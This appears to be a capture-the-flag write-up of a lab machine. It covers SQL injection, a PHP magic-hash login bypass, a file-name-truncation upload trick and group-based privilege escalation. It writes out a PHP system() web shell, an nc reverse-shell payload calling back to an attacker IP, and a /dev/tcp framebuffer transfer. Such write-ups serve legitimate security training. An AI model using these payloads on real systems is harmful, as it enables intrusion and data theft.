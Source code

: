 **Initial Recon**

Nmap

![image](https://user-images.githubusercontent.com/88967140/178944865-a3ef8183-1cd8-4fed-ae77-66f69aceacd8.png)

Web Directory Enumeration (Gobuster)
![image](https://user-images.githubusercontent.com/88967140/178944919-596a497a-5a90-444c-9b73-c7029cb28908.png)
![image](https://user-images.githubusercontent.com/88967140/178944927-a6a217c7-5192-4961-bd8d-f18cba0dd4a2.png)

* cyberlaw.txt appeared to be an intriguing text page that revealed a user named chris.
* ![image](https://user-images.githubusercontent.com/88967140/178945084-83ed301e-ba19-4c43-ada6-9f99fe908af5.png)
</br>
</br>

**Initial Foothold**

SQL Injection

Since there wasn't anything else other than the login form, I captured the login POST via Burp and used it in `sqlmap`.
![image](https://user-images.githubusercontent.com/88967140/178946925-b0d2ebe8-d070-4991-92ed-030cef796d44.png)
![image](https://user-images.githubusercontent.com/88967140/178946947-2a01e5a4-efca-491f-b15f-a59adc17788d.png)

Sending different usernames in the login form returned different results - 
![image](https://user-images.githubusercontent.com/88967140/178949194-20b06a3f-c7de-47b4-91ab-7ad42d387bf1.png)
![image](https://user-images.githubusercontent.com/88967140/178949227-3d73042b-ec92-49e0-9b8a-2ce02c366be2.png)
![image](https://user-images.githubusercontent.com/88967140/178949211-e65cf870-43d0-4f3a-a36a-a08d21bc77ab.png)

Notice how entering `admin` as the username would show `Wrong identification` in the response, but using `test` would show `Try again..`.

From this, it can be deduced that this login form is vulnerable to a boolean-based blind injection (the username = parameter).

So basically, "Wrong identification" = TRUE, "Try again.." = FALSE.

SQLMap
![image](https://user-images.githubusercontent.com/88967140/178950269-cb0b93b3-6c02-4b91-b68f-905466743b9f.png)

Effectively we can use `Wrong identification` to see if we're on the right track. All we're doing here is dumping credentials from `falafel` database.

![image](https://user-images.githubusercontent.com/88967140/178951074-60df6e3e-7bd2-4218-bab1-63295b690501.png)

PHP Type Juggling

Notice how the password for admin is hashed - it begins with 0e. We can try using magic tables to bypass the authentication and get into the account since 0 to the exponent of 462 is still 0. Right here we'll be abusing PHP's Loose comparison weakness.

* Magic Hashes

For this, we'll be using MD5 “Magic Number" (from https://www.whitehatsec.com/blog/magic-hashes/) 240610708 as the MD5 hash for this string would also start with 0e. As a result, because both are treated as 0, this magic hash would collide with other hashes and compare to be **true**.

I successfully logged in by using `240610708` as the password for `admin`.

![image](https://user-images.githubusercontent.com/88967140/178952959-d8c94975-1d82-4e92-9496-8e8686a450d5.png)
![image](https://user-images.githubusercontent.com/88967140/178952977-b66d8f8c-c6f0-405b-a8bd-51cdfb9ff58d.png)

At the start, I tried to upload a .php file to see if I could get an easy PHPreverse shell.
![image](https://user-images.githubusercontent.com/88967140/178953133-25763a14-7af2-4356-96e9-3f48070d1dde.png)
From this image, we can clearly see .php files won't work.
</br>
</br>

**File Name Truncation**

What I did was create a file with 251 characters using `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 251`, add .png at the end of the file, and upload it. 

![image](https://user-images.githubusercontent.com/88967140/178954298-a5a63f19-d81b-425c-8482-bba311b7e6a6.png)

Interestingly enough, the output mentioned the file name being too long and shortening it, which turned out to be from 255 characters to 236.
![image](https://user-images.githubusercontent.com/88967140/178954663-adad24d9-8614-4fe3-96a5-111256cfe655.png)
</br>
</br>

**PHP Reverse Shell**

So now my idea was to make it so that the .png part gets cut off by the upload system and we're left off with <file>.php from which we can execute PHP code.
I used `vi` to insert this arbitrary PHP execution code in the file we're going to upload next:
 
 `<?php echo system($_REQUEST['leo']) ?>`
and set up `nc -lvnp 443` on our other terminal.
 
So now we send a request with `leo=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.16.3+443+>/tmp/f` to `http://10.10.10.73/uploads/<folder from CMD output>/<file name>.php` as the payload.
* Important to URL encode it - otherwise the payload won't work.
 
 ![image](https://user-images.githubusercontent.com/88967140/178956561-cdabbc78-1a05-4a42-8880-6d899fa95fa5.png)
 
  And finally I got the shell.
 </br>
 </br>
 
 **Privilege Escalation**
 **www-data -> moshe (Password reuse)**

 Web directory enumeration showed this interesting .php file `connection.php`, which, as it turns out, included credentials for `moshe` user.
 ![image](https://user-images.githubusercontent.com/88967140/178957004-fd97e9a1-62c9-46d6-bb75-482d5e5dcf0d.png)
 
 Reusing those credentials, I was able to SSH in as `moshe` and read user.txt.
 ![image](https://user-images.githubusercontent.com/88967140/178957521-383fa639-74d0-4138-9f0c-169c2dfe3b37.png)
 </br>
 </br>
 
 **moshe -> yossi**
 
 `moshe` was part of many groups and video looked interesting.
 ![image](https://user-images.githubusercontent.com/88967140/178964905-4dc73b87-8b19-460c-aae5-143f9c8739b3.png)
 
It should be noted that users in the `video` group can access video capture devices and there's one framebuffer for each monitor which can be accessed through `/dev/fb[x]`.

I moved this file to my Kali using `cat /dev/fb0 > fb0.data` and `cat fb0.data > /dev/tcp/10.10.16.3/8000`.

Afterwards, I used gimp to open this file as `Raw image data`, set the width and height according to `/sys/class/graphics/fb0/virtual_size` and got this picture.
![image](https://user-images.githubusercontent.com/88967140/178964970-2beaa2c6-99d2-4056-a9a2-82aa84bfbcbe.png)
</br>
</br>

**yossi -> root**
So now that I got the password, I used it to SSH in as `yossi`.
![image](https://user-images.githubusercontent.com/88967140/178967068-03ce0714-b4c6-49cc-adfe-123314ae11e4.png)

We can see that the user is part of `disk` group. This should be kept in mind because members of the disk group can read and alter any files on any hard drive, which is mostly equivalent to having root access.

https://wiki.debian.org/SystemGroups tells us that `The group disk can be very dangerous, since hard drives in /dev/sd* and /dev/hd* can be read and written bypassing any file system and any partition, allowing a normal user to disclose, alter and destroy both the partitions and the data of such drives without root privileges. Users should never belong to this group.`
</br>
</br>

**Getting root Shell**
With this information at my disposal, I decided to `cat` RSA private key for `root` since I'd be able to SSH in as root using that exact key.
![image](https://user-images.githubusercontent.com/88967140/178967911-6144c2d0-46fc-43da-b919-657f69bb192a.png)

![image](https://user-images.githubusercontent.com/88967140/178968091-07014aa9-39b2-4841-8cb6-ad58c8bc3736.png)



`



 
 
 

